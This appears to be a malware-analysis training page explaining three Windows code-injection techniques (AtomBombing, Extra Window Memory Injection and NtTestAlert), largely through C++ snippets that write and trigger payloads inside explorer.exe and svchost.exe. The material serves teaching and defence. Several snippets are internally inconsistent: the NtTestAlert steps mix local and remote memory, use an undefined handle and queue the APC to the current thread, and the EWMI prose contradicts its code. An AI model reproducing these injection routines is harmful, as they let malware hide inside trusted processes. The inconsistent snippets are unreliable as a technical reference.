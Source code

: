 :orphan:
(malware-injection-techniques-atombombing-ewmi-nttestalert)=

# Malware Injection Techniques: AtomBombing, EWMI, NtTestAlert

AtomBombing is a malware injection technique that inserts malicious code into legitimate process threads. This technique is often used by attackers to gain persistence on a system or to elevate privileges. The code that is injected into the thread can be executed when the thread is scheduled, which allows the attacker to execute their code without needing to create a new process.

## Atom tables

Atom table - system-defined table that contains strings and their corresponding identifiers. An application stores a string in an atom table and receives an atom, a `16-bit` integer that can be used to access the string. Atom names are strings that have been placed in atom tables.

The system offers several atom tables. Each atom table serves a unique function. DDE applications, for instance, utilize the global atom table to share item-name and topic-name strings with other applications. Instead of passing actual strings, a DDE application sends its partner application global atoms. The partner retrieves the strings from the atom table using the atoms.

Local atom tables can be used by applications to store their own item-name associations.

The system employs atom tables that are inaccessible to applications directly. However, the application calls a variety of functions using these atoms. For instance, clipboard formats registered by the system are stored in an internal atom table. Using the `RegisterClipboardFormat` function, an application adds atoms to the atom table.
In addition, registered classes are stored in a system-wide internal atom table. Using the `RegisterClass` or `RegisterClassEx` function, an application adds atoms to the atom table.

### Injection

Additionally dependent on APC injection, the AtomBombing technique uses the atom table to write into the memory space of another thread.

The following function calls can cause a thread to enter the alertable state:

Alertable state functions
The following 5 functions (and their low-level syscall wrappers):

- `SleepEx` (`NtDelayExecution`)
- `WaitForSingleObjectEx` (`NtWaitForSingleObject`)
- `SignalObjectAndWait` (`NtSignalAndWaitForSingleObject`)
- `MsgWaitForMultipleObjectsEx` (`NtUserMsgWaitForMultipleObjectsEx`)
- `WaitForMultipleObjectsEx` (`NtWaitForMultipleObjects`)

Then, malware chooses a thread in a alertable state.

Calls `OpenThread`:

```cpp
//....
HANDLE th = OpenThread(THREAD_SET_CONTEXT|
THREAD_QUERY_INFORMATION, FALSE, thread_id);
```

Then:

```cpp
ATOM a = GlobalAddAtomA(payload);
NtQueueApcThread(th, GlobalGetAtomNameA, (PVOID)a,
(PVOID)(target_payload), (PVOID)(sizeof(payload)));
```

### Extra Window Memory Injection (EWMI)

The _PowerLoader_ and _Gapz_ malware families employ the _EWMI_ injection technique, which injects malicious code into the "extra window memory" of the Explorer tray window.

When a window class is registered, the application can determine an additional number of memory bytes known as extra window memory (EWM).

Since EWM space is limited, the malware stores its code in a shared section of `explorer.exe`, uses `SetWindowLong` and `SendNotifyMessage` to create a function pointer to the shellcode, and then executes it.

To write into the shared section, malware may employ either of the following strategies:

1. Create a shared section and connect it to both itself and another process.
2. access an existing shared section

Since the first method incurs an overhead when allocating heap space and calling multiple APIs, including `NTMapViewOfSection`, the second method is utilized more frequently.

After writing the code to the shared section, the malware uses `GetWindowLong` and `SetWindowLong` to access and modify the window memory of _"Shell TrayWnd"_:

```cpp
//...
    // 1. Obtain a handle for the shell tray window
    hw = FindWindow(L"Shell_TrayWnd", NULL);

    // 2. Obtain a process id for explorer.exe
    GetWindowThreadProcessId(hw, &pid);

    // 3. Open explorer.exe
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    // 4. Obtain pointer to the current CTray object
    ctp = GetWindowLongPtr(hw, 0);

    // 5. Read address of the current CTray object
    ReadProcessMemory(hp, (LPVOID)ctp,
        (LPVOID)&ct.vTable, sizeof(ULONG_PTR), &wr);

    // 6. Read three addresses from the virtual table
    ReadProcessMemory(hp, (LPVOID)ct.vTable,
      (LPVOID)&ct.AddRef, sizeof(ULONG_PTR) * 3, &wr);

    // 7. Allocate RWX memory for code
    cs = VirtualAllocEx(hp, NULL, payloadSize,
      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 8. Copy the code to target process
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);

    // 9. Allocate RW memory for the new CTray object
    ds = VirtualAllocEx(hp, NULL, sizeof(ct),
      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 10. Write the new CTray object to remote memory
    ct.vTable  = (ULONG_PTR)ds + sizeof(ULONG_PTR);
    ct.WndProc = (ULONG_PTR)cs;

    WriteProcessMemory(hp, ds, &ct, sizeof(ct), &wr);

    // 11. Set the new pointer to CTray object
    SetWindowLongPtr(hw, 0, (ULONG_PTR)ds);

    // 12. Trigger the payload via a windows message
    PostMessage(hw, WM_CLOSE, 0, 0);

    // 13. Restore the original CTray object
    SetWindowLongPtr(hw, 0, ctp);

    // 14. Release memory and close handles
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, ds, 0, MEM_DECOMMIT | MEM_RELEASE);

    CloseHandle(hp);
//...
```

The `GetWindowLong` and `SetWindowLong` APIs are used to retrieve and modify the `32-bit` value at the specified offset in the window class object's extra window memory.

This enables the malware to change the offset of a function pointer within a window class to point to the shellcode inserted into the shared section.

To trigger the code execution, the malware calls the `SendNotifyMessage`.

_"Shell_TrayWnd"_ will receive and transfer control to the address specified by the value set by `SetWindowLong` when `SendNotifyMessage` is executed.

Malware PowerLoader disassembly using IDA Pro demonstrating the application of this technique:

![disas](images/malware-injection.png)

![disas](images/malware-injection_1.png)

### NtTestAlert

Make a main thread APC using the previously discussed `QueueUserAPC()` technique, but make the kernel run that thread instead.

The steps are as follows:

Suspend a valid process, such as the `svchost.exe` process:

```cpp
//...
STARTUPINFO si;
PROCESS_INFORMATION pi;
LPVOID my_payload_mem;
SIZE_T my_payload_len = sizeof(my_payload);
LPCWSTR cmd;
HANDLE hProcess, hThread;
NTSTATUS status;

ZeroMemory(&si, sizeof(si));
ZeroMemory(&pi, sizeof(pi));
si.cb = sizeof(si);

CreateProcessA(
"C:\\Windows\\System32\\svchost.exe",
NULL, NULL, NULL, false,
CREATE_SUSPENDED, NULL, NULL, &si, &pi
);
//...
```

Allocate memory in the created process:

```cpp
LPVOID address = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Write the shellcode into the allocated memory space:

```cpp
WriteProcessMemory(procHandle, address, my_payload, my_payload_len, NULL);
```

Queue an asynchronous procedure call (APC) to the newly-created process' main thread:

```cpp
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)address;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
```

Call the `NtTestAlert` function to direct the kernel to execute malicious code when the main thread resumes operating since the APC can start process executing only when it is in an alertable state:

```cpp
HMODULE hNtdll = GetModuleHandleA("ntdll");
myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(hNtdll, "NtTestAlert"));
testAlert();
```

## References

- [Brand New Code Injection for Windows](https://github.com/BreakingMalwareResearch/atom-bombing)

:::{seealso}
Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html)
:::

